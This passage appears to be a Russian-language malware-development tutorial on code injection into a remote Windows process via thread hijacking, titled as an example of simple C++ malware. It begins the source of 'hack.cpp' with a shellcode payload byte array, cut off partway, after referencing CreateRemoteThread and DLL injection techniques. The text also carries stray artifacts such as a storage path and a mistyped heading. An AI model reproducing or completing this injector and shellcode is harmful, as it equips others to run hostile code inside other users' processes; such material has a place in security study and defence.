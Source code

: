 \newpage
\subsection{16. инъекция кода через захват потока (threat hijacking). Пример простого C++ вредоносного ПО.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![thread hijacking](./images/24/2021-11-23_21-51.png){width="80%"}    

### что это означает?

Сегодня я расскажу об инъекции кода в удаленный процесс через захват потока. Этот метод предполагает внедрение кода путем захвата потоков вместо создания удаленного потока. Существуют методы инъекции кода, когда можно создать поток в другом процессе, используя `CreateRemoteThread` в месте выполнения кода. Я писал об этом [здесь](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Или, например, классическая DLL-инъекция через `CreateRemoteThread` и выполнение `LoadLibrary`, передавая аргумент в `CreateRemoteThread`. Мой [пост](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) о данной технике.    

### практический пример

Давайте рассмотрим пример, демонстрирующий эту технику:


```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
```